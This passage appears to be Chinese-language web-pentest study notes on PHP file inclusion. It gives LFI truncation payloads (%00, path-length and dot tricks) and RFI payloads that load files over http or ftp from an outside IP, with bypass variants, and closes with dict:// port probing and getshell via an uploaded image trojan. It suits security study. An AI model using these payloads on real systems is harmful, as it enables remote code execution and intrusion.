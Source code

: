   ```
   1.%00截断
      - 条件:magic_quotes_gpc=Off php版本<5.3.4
      - 获取phpinfo.php文件-->  ?action=phpinfo.php%00
          
   2.路径长度截断
      - 条件:windows下长于198字符,超出部分会被丢弃
      - ?action=phpinfo.php/./././././././././././././././././././././././././././././././././././././
          
   3.点号截断
      - 条件:windows系统,点号需要长于197
      - ?action=phpinfo.php.............................................................................
          
  ```

------

#### 远程文件包含(RFI)

- 指的是能够包含远程服务器上的文件并执行,可以通过http(s)或者ftp等方式,远程加载文件

- 危害:由于远程服务器的文件是我们可控的,因此漏洞一旦存在漏洞危害性很大

- 包含`条件`:

  - allow_url_include=On (默认为OFF,需要在php.ini中手动打开)
  - allow_url_fopen=On  (是否允许打开远程文件)
  - 用户可以`动态控制变量`

  ```php
  //举例
  //通过http协议加载目标机中的info.php文件
  [url]?path=http://ip/info.php	
  
  //通过ftp协议加载目标机中的info.php文件
  [url]?path=ftp://用户名:密码@ip/info.php	
  
  //绕过
  1.问号绕过
      - ?action=http://192.168.1.1/phpinfo.php?
  2.#号绕过
      - ?action=http://192.168.1.1/phpinfo.php%23
  3.空格绕过
      - ?action=http://192.168.1.1/phpinfo.php%20
  ```

------

#### 漏洞利用

- 端口探测:url=dict://ip:`80`

- 包含上传的getshell-->上传图片马

